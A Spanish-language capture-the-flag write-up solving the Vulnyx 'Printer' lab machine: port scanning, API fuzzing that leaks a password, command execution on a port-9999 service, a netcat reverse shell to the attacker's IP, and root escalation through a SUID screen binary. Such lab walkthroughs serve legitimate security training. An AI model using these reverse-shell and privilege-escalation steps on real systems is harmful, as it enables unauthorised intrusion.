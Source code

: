 ```yaml
---
layout      : post
title       : "Printer - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
optimized_image : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
category    : [ Vulnyx ]
tags        : [ Linux, Vulnyx ]
description : En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx.
---
```


🎩En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx🎩.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como siempre comenzamos realizando un reconocimiento de puertos abiertos para ver por donde podemos empezar a atacar y ver que tenemos en cada puerto.

Para realizar este reconocimiento usaré la herramienta nmap.

```r
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9999/tcp open  abyss
```

Podemos ver que tenemos los siguientes puertos abiertos, 22 (ssh), 80 (http) y 9999 (abyss).

Pero necesito saber algo más de información sobre estos puertos... por lo que lanzaré de nuevo nmap con otros parámetros para lanzar una serie de scripts de enumeración que me ayuden a obtener más información sobre estos puertos abiertos.

![](/assets/images/VULNYX/Printer-Vulnyx/nmap.png)

Ahora ye podemos ver algo más...

En el puerto 80 tenemos un simple servidor Apache... pero lo más curioso está en el puerto 9999, parece que hay una especie de login... por lo que intento conectarme para ver que hay.

A través de netcat me conecto a este puerto y veo que hay un login, pero se me pide una contraseña que no tengo... por lo que toca buscarla.

![](/assets/images/VULNYX/Printer-Vulnyx/nc1.webp)

Continúo enumerando el puerto 80 (http) donde tenemos un servidor Apache.

Tras acceder no encontré nada útil por lo que decidí fuzzear para buscar rutas dentro del servidor.

Comenzaré usando wfuzz.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz1.webp)

Encuentro la ruta `api` por lo que sigo fuzzeando.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz2.webp)

Accedo a la ruta `api/printers` y encuentro lo siguiente.

Search for your printer with the following format: printer<id>.<ext>

Tras ver esto ya se que he de hacer, continuar fuzzeando.

Debemos descubrir un número (el id) y su extensión... y para ello usamos de nuevo wfuzz.

Tras probar y probar descubrí que la extensión era .json, por lo que generando un rango de números del 1 a 9999 puedo descubrir el id.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz3.webp)

Y tras ir probando 1 a 1 cada `id` descubro esto.

![](/assets/images/VULNYX/Printer-Vulnyx/json.webp)

Encontramos una contraseña...

> "$3cUr3Pr1nT3RP4ZZw0rD"

# Explotación [#](explotación) {#explotación}

Tras obtener la contraseña pruebo a utilizarla para conectarme al puerto 9999.

![](/assets/images/VULNYX/Printer-Vulnyx/nc2.webp)

Tras acceder ejecuto el comando `?` para que me muestre la ayuda para ver todos los parámetros que puedo ejecutar y veo que con el comando exec puedo ejecutar comandos en la misma máquina.

```bash
> exec whoami
printer
> exec id
uid=1000(printer) gid=1000(printer) grupos=1000(printer)
```

Por lo que lo aprovecho para introducir una reverse shell en netcat y ganar acceso a la máquina.

```bash
> exec nc -e /bin/bash 192.168.0.32 4444
```

Y gano acceso a la máquina por fin!

![](/assets/images/VULNYX/Printer-Vulnyx/nc3.webp)

Tras acceder ya puedo leer la flag de usuario y proceder al siguiente paso... escalar privielegios.

# Escalada de Privilegios [#](Escalada de Privilegios) {#privesc}

Primero enumero archivos con permisos 4000.

```bash
printer@printer:/var/spool/lpd$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

```bash
printer@printer:/var/spool/lpd$ ls -la /usr/bin/screen
ls -la /usr/bin/screen
-rwsr-xr-x 1 root root 482312 feb 27  2021 /usr/bin/screen
```

Y veo que el binario screen puede servirme para escalar privilegios.

Y es muy sencillo, con screen podemos hacer un attach con el parámetro -x a una sesión o pantalla digamos, que en este caso sería la de root.

De la siguiente forma:

```bash
screen -x root/
```

Y ya nos habremos convertido en root.

![](/assets/images/VULNYX/Printer-Vulnyx/root.webp)



